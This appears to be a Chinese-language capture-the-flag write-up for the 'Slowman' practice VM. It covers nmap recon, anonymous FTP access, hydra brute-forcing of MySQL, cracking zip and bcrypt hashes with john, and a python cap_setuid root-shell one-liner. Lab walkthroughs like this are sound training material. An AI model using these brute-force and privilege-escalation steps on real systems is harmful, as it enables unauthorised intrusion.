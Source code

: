# Slowman

:::note

[Linux VM] [Tested on VirtualBox] created by || Pylon

⏲️ Release Date // 2023-12-04

✔️ MD5 // 6a4ad8842487288bd6d076fb6e19d3ce

☠ Root // 53

💀 User // 50

📝Notes //
Enjoy it :)

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.104
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.104
Host is up (0.00048s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE  SERVICE  VERSION
20/tcp   closed ftp-data
21/tcp   open   ftp      vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.56.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp   open   ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 02:d6:5e:01:45:5b:8d:2d:f9:cb:0b:df:45:67:04:22 (ECDSA)
|_  256 f9:ce:4a:75:07:d0:05:1d:fb:a7:a7:69:39:1b:08:10 (ED25519)
80/tcp   open   http     Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Fastgym
3306/tcp open   mysql    MySQL 8.0.35-0ubuntu0.22.04.1
| ssl-cert: Subject: commonName=MySQL_Server_8.0.35_Auto_Generated_Server_Certificate
| Not valid before: 2023-11-22T19:44:52
|_Not valid after:  2033-11-19T19:44:52
| mysql-info:
|   Protocol: 10
|   Version: 8.0.35-0ubuntu0.22.04.1
|   Thread ID: 10
|   Capabilities flags: 65535
|   Some Capabilities: FoundRows, ConnectWithDatabase, DontAllowDatabaseTableColumn, SupportsTransactions, LongPassword, IgnoreSigpipes, Speaks41ProtocolOld, Support41Auth, IgnoreSpaceBeforeParenthesis, InteractiveClient, LongColumnFlag, Speaks41ProtocolNew, SwitchToSSLAfterHandshake, ODBCClient, SupportsLoadDataLocal, SupportsCompression, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: I-h4^y\x01\x11w8~FvG\x02cPh7F
|_  Auth Plugin Name: caching_sha2_password
|_ssl-date: TLS randomness does not represent time
```

## ftp Anonymous

尝试匿名登录，列出共享目录

```plaintext
ftp> ls -lh
150 Here comes the directory listing.
-rw-r--r--    1 0        0              12 Nov 22 21:46 allowedusersmysql.txt
226 Directory send OK.
```

查看文件内容

```plaintext title="allowedusersmysql.txt"
trainerjeff
```

根据文件名猜测，是 mysql 允许连接的用户名

## mysql 远程连接

尝试使用 hydra 爆破用户密码

```plaintext
[3306][mysql] host: 192.168.56.104   login: trainerjeff   password: soccer1
```

使用爆破出来的凭据进行连接数据库，查看基本信息

```shell
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| trainers_db        |
+--------------------+

MySQL [trainers_db]> show tables;
+-----------------------+
| Tables_in_trainers_db |
+-----------------------+
| users                 |
+-----------------------+

MySQL [trainers_db]> select * from users;
+----+-----------------+-------------------------------+
| id | user            | password                      |
+----+-----------------+-------------------------------+
|  1 | gonzalo         | tH1sS2stH3g0nz4l0pAsSWW0rDD!! |
|  2 | $SECRETLOGINURL | /secretLOGIN/login.html       |
+----+-----------------+-------------------------------+
```

## web 服务

尝试进行目录爆破

```plaintext
[12:18:58] 200 -    5KB - /contact.html
[12:19:05] 200 -    5KB - /images/
[12:19:05] 200 -   16KB - /index.html
[12:19:06] 200 -    1KB - /js/
```

经过简单判断，都是静态资源，没有敏感文件

尝试使用数据库中得到的信息登陆后台，得到

```plaintext
http://192.168.56.104/secretgym/serverSHARE/credentials.zip
```

下载下来进行分析，发现带有密码保护，尝试破解

```shell
┌─[randark@parrot]─[~/tmp]
└──╼ $john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (credentials.zip/passwords.txt)
1g 0:00:00:00 DONE (2024-02-12 12:49) 100.0g/s 409600p/s 409600c/s 409600C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

得到以下信息

```plaintext title="credentials.zip/passwords.txt"
----------
$USERS: trainerjean

$PASSWORD: $2y$10$DBFBehmbO6ktnyGyAtQZNeV/kiNAE.Y3He8cJsvpRxIFEhRAUe1kq
----------
```

将得到的哈希值继续进行爆破

```plaintext
┌─[randark@parrot]─[~/tmp]
└──╼ $john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tweety1          (?)
```

## User - trainerjean

```shell
┌─[randark@parrot]─[~/tmp]
└──╼ $pwncat-cs trainerjean@192.168.56.104
[12:53:41] Welcome to pwncat 🐈!
Password: *******
[12:53:48] 192.168.56.104:22: registered new host w/ db
(local) pwncat$ back
(remote) trainerjean@slowman:/home/trainerjean$ whoami
trainerjean
```

### flag - user

```shell
(remote) trainerjean@slowman:/home/trainerjean$ cat user.txt
YOU9et7HEpA$SwordofS10wMan!!
```

### 尝试提权

```plaintext title="getcap -r / 2>/dev/null"
/snap/core20/2015/usr/bin/ping cap_net_raw=ep
/snap/core20/1974/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/python3.10 cap_setuid=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/ping cap_net_raw=ep
```

发现 python 可以利用 cap_setuid 实现提权

```shell
(remote) trainerjean@slowman:/home/trainerjean$ /usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/sh")'
[](remote)[] []root@slowman[]:[]/home/trainerjean[]$ whoami
root
```

## User - root

### flag - root

```shell
[](remote)[] []root@slowman[]:[]/root[]$ cat root.txt
Y0UGE23t7hE515roo7664pa5$WoRDOFSlowmaN!!
```
